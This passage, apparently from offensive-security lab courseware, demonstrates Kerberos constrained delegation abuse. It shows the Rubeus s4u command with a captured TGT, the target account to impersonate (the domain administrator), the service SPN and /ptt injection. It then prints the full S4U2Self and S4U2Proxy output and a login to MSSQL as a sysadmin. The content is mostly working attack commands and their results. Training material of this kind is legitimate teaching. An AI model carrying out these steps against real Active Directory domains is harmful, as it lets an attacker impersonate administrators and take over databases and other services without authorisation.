 Armed with the Base64-encoded TGT for _IISSvc_, we are ready to invoke the S4U extensions.

We can do this with Rubeus by first specifying the s4u command and then providing the Base64-encoded TGT (/ticket) and the username we want to impersonate (/impersonateuser), in our case, the _administrator_ account of the domain. This will make use of S4U2Self.

We'll also supply the SPN of the service (/msdsspn), which is used with S4U2Proxy and finally, the /ptt flag to directly inject it into memory:

```
PS C:\Tools> .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
...

[*] Action: S4U

[*] Action: S4U

[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2self request for: 'iissvc@PROD.CORP1.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@PROD.CORP1.COM' to 'iissvc@PROD.CORP1.COM'
[*] base64(ticket.kirbi):

      doIFejCCBXagAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEe...

[*] Impersonating user 'administrator' to target SPN 'mssqlsvc/cdc01.prod.corp1.com:1433'
[*] Using domain controller: CDC01.prod.corp1.com (192.168.120.70)
[*] Building S4U2proxy request for service: 'mssqlsvc/cdc01.prod.corp1.com:1433'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'mssqlsvc/cdc01.prod.corp1.com:1433':

      doIGfDCCBnigAwIBBaEDAgEWooIFajCCBWZhggViMIIF...
[+] Ticket successfully imported!
```

> Listing 31 - Using S4U extensions to request a service ticket

The first highlighted part of Listing 31 is output by S4U2Self and the second by S4U2Proxy. This attempt was successful and we obtained a usable service ticket for the MSSQL service instance on CDC01.

Since the TGS for MSSQL on CDC01 was injected into memory, we can verify that it worked by turning to the MSSQL attacks we developed in a previous module. The C:\Tools folder contains a compiled version of the MSSQL login application. We'll use this to validate that we are authenticated to MSSQL as the impersonated user:

```
PS C:\Tools> .\SQL.exe
Auth success!
Logged in as: PROD\Administrator
Mapped to the user: dbo
User is a member of public role
User is a member of sysadmin role
```

